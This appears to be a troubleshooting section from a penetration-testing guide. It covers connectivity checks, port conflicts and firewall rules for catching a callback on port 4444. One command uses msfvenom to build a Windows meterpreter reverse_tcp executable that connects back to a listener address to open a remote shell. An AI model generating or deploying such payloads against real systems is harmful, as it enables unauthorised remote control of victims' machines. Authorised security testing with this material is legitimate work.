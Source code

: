 ### 1. Connection Problems

#### Problem: Cannot connect to target
**Solution**: 
1. Check network connectivity
2. Verify IP addresses
3. Check firewall rules

```bash
# Test connectivity
ping 192.168.1.100

# Check port availability
nmap -p 4444 192.168.1.100

# Check firewall
sudo ufw status
```

#### Problem: Port already in use
**Solution**: 
1. Find process using port
2. Kill process or use different port
3. Check port availability

```bash
# Find process using port
sudo netstat -tlnp | grep 4444

# Kill process
sudo kill -9 PID

# Use different port
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -f exe -o payload.exe
```

#### Problem: Firewall blocking connections
**Solution**: 
1. Check firewall rules
2. Allow required ports
3. Test connectivity

```bash
# Check firewall status
sudo ufw status

# Allow port
sudo ufw allow 4444

# Test connection
telnet 192.168.1.100 4444
```

### 2. Network Configuration
